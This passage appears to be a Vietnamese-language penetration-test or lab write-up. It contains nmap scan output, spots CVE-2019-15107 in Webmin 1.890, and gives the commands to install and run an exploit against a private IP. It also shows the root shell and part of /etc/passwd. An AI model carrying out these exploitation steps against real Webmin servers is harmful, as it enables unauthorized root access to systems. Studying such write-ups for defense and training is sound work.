 |_Not valid after:  2023-06-08T03:59:08

|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c

|_ssl-date: TLS randomness does not represent time

| tls-alpn:

|_  http/1.1

9090/tcp  closed zeus-admin

10000/tcp open   http       MiniServ 1.890 (Webmin httpd)

|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 182.50 seconds

máy chạy centos

Port 10k có CVE-2019-15107

EXPLOIT WEB SERVER

Tải file exploit cve:

git clone

sudo apt install python3-pip

cd CVE-2019-15107 && pip3 install -r requirements.txt

chmod +x ./CVE-2019-15107.py

Khai thác:

./CVE-2019-15107.py 10.200.81.200

Sau khi chiếm quyền thành công thì tiến hành tìm kiếm thêm thông tin.

# whoami

root

# cat /etc/passwd

root:x:0:0:root:/root:/bin/bash

bin:x:1:1:bin:/bin:/sbin/nologin

daemon:x:2:2:daemon:/sbin:/sbin/nologin

adm:x:3:4:adm:/var/adm:/sbin/nologin
